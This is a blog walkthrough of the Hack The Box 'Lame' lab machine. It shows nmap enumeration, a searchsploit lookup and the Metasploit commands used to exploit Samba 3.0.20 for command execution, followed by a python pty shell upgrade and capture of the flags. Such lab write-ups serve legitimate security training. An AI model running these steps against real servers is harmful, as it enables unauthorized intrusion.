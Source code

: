 ```yaml
---
title:  "Hack The Box: Lame - Walkthrough"
date:   2020-01-09 19:30:55
---
```


It's been a while since i've last actively posted something on my blog. I've been really busy with uni and real life stuff but i managed to get some more free time on my hands. Lame was one of the more easier boxes that i've done if i say so myself. Here is my write up :)

![](/assets/3/1.png)

<h2>Enumeration</h2>
Let's start off with our nmap scan.

```
mkdir scans
nmap -sV -sC -oA scans/nmapinitial 10.10.10.3
```

-sC for defaults cripts
-sV for version enumeration
-oA for output all formats

![](/assets/3/2.png)

Couple of interesting results.

- FTP allows anonymous login but when loggin in there wasn't any useful information.
- OpenSSH version is not vulnerable.
- Samba is our injection point.

I ran a searchsploit on the samba version.

```
searchsploit samna 3.0.20
```

![](/assets/3/3.png)

Great an exploit that leads to command execution, lets power up metasploit!

<h2>Exploitation</h2>

```
msfconsole
```

![](/assets/3/4.png)

Lets search for the exploit we just found.

```
search samba 3.0.20
```

![](/assets/3/5.png)

Bunch of results, but the one we found when running searchsploit has ID 14.

```
use 14
```

Let's see what we need to set in the exploit before running it.

```
show options
```

![](/assets/3/6.png)

Looks like we only have to set the rhost, let's go ahead and do that.

```
set rhost 10.10.10.3
```

![](/assets/3/7.png)

Then run it.

```
run
```

![](/assets/3/8.png)

Great, we got in! Quickly checked what the current user was and spawned a TTY shell with:

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

<h2>Getting user.txt</h2>
Let's continue and find the user and root flag.

When going through the user folders i found the user.txt file in /home/makis.

![](/assets/3/9.png)

h2>Getting root.txt</h2>
Let's go to the root directory now for root.txt file.

![](/assets/3/10.png)

And there we have it, box done :)

Thanks for reading and happy hacking!

